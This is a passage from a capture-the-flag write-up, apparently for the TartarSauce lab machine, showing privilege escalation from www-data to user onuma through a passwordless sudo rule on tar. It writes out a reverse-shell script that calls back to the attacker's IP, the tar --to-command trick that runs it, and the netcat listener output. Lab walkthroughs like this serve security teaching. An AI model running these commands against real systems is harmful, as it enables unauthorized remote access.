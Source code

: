 ## Privesc: www-data --\> onuma

As `www-data`, we can't get into the lone user directory:



    www-data@TartarSauce:/home$ ls
    onuma
    www-data@TartarSauce:/home$ cd onuma/
    bash: cd: onuma/: Permission denied



### sudo tar

Notice that user `www-data` can run `sudo` with no password for
`/bin/tar`:



    www-data@TartarSauce:/dev/shm$ sudo -l
    Matching Defaults entries for www-data on TartarSauce:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on TartarSauce:
        (onuma) NOPASSWD: /bin/tar



### Two Ways to Escalate with sudo tar

#### --to-command

The take advantage of this, first create a shell script that will
provide a reverse shell to my host. Then put it into a tar archive.



    www-data@TartarSauce:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
    www-data@TartarSauce:/dev/shm$ tar -cvf a.tar a.sh
    a.sh



Then I'll run `tar` with the `--to-command` option. This option takes
the output of the tar command, and passes it to another binary for
processing. In this case, I'm having my shell script to get a shell
passed to bash to run it.



    www-data@TartarSauce:/dev/shm$ sudo -u onuma tar -xvf a.tar --to-command /bin/bash



And I get a callback as onuma:



    root@kali# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 47320
    onuma@TartarSauce:/dev/shm$ id
    uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
    onuma@TartarSauce:/dev/shm$
